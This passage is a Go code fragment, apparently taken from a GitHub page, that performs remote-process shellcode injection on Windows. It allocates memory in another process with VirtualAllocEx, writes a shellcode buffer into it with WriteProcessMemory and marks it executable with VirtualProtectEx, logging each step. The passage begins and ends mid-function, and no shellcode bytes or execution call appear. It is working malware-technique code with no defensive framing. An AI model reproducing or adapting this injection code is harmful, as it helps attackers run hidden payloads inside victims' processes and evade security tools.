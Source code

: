 ```go
	remoteAddrPtr, allocErrCode := win32.VirtualAllocEx(
		win32.HANDLE(hProcess), // Cast windows.Handle to win32.HANDLE
		nil,
		shellcodeLen,
		win32.MEM_COMMIT|win32.MEM_RESERVE,
		win32.PAGE_READWRITE,
	)
	if allocErrCode != win32.NO_ERROR {
		log.Fatalf("[-] win32.VirtualAllocEx failed (Error code: %d)", allocErrCode)
	}
	if remoteAddrPtr == nil {
		log.Fatalf("[-] win32.VirtualAllocEx returned nil address.")
	}
	remoteAllocatedAddress := uintptr(remoteAddrPtr) // For use with windows package functions that take uintptr
	fmt.Printf("[+] Allocated %d bytes at remote address: 0x%X\n", shellcodeLen, remoteAllocatedAddress)

	defer func(addrToFree uintptr) {
		if addrToFree == 0 {
			return
		}
		fmt.Println("[*] Freeing remote memory...")
		// Using win32.VirtualFreeEx from zzl/go-win32api
		_, freeErrCode := win32.VirtualFreeEx(
			win32.HANDLE(hProcess),
			unsafe.Pointer(addrToFree), // remoteAddrPtr could also be used here directly
			0,
			win32.MEM_RELEASE,
		)
		if freeErrCode != win32.NO_ERROR {
			log.Printf("[!] Warning: win32.VirtualFreeEx failed (Error code: %d)", freeErrCode)
		} else {
			fmt.Println("[+] Remote memory freed.")
		}
	}(remoteAllocatedAddress)

	var bytesWritten uintptr
	// Using windows.WriteProcessMemory from golang.org/x/sys/windows
	fmt.Printf("[*] Writing %d bytes of shellcode to remote address 0x%X...\n", shellcodeLen, remoteAllocatedAddress)
	err = windows.WriteProcessMemory(hProcess, remoteAllocatedAddress, &shellcode[0], shellcodeLen, &bytesWritten)
	if err != nil {
		log.Fatalf("[-] WriteProcessMemory failed: %v", err)
	}
	if bytesWritten != shellcodeLen {
		log.Fatalf("[-] WriteProcessMemory: incomplete write (%d/%d bytes)", bytesWritten, shellcodeLen)
	}
	fmt.Printf("[+] Successfully wrote %d bytes.\n", bytesWritten)

	var oldProtect uint32
	// Using windows.VirtualProtectEx from golang.org/x/sys/windows
	fmt.Printf("[*] Changing protection of remote address 0x%X to PAGE_EXECUTE_READ (0x%X)...\n", remoteAllocatedAddress, windows.PAGE_EXECUTE_READ)
	err = windows.VirtualProtectEx(hProcess, remoteAllocatedAddress, shellcodeLen, windows.PAGE_EXECUTE_READ, &oldProtect)
	if err != nil {
		log.Fatalf("[-] VirtualProtectEx failed: %v", err)
	}
	fmt.Printf("[+] Protection changed successfully. Old protection was: 0x%X\n", oldProtect)

```
